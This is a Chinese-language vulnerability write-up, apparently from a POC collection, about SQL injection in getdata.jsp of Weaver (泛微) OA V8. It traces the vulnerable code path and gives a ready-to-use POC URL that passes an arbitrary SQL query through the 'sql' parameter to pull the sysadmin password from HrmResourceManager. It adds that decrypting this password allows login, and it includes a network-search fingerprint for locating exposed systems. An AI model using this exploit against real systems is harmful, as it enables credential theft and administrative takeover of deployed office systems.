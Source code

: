 # 泛微OA getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

在getdata.jsp中，直接将request对象交给

`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :` 

方法处理



![img](../../../.vuepress/public/img/fanwei-17.png)



在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法



![img](../../../.vuepress/public/img/fanwei-18.png)



Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![img](../../../.vuepress/public/img/fanwei-19.png)





POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![img](../../../.vuepress/public/img/fanwei-20.png)



解密后即可登录系统

![img](../../../.vuepress/public/img/fanwei-21.png)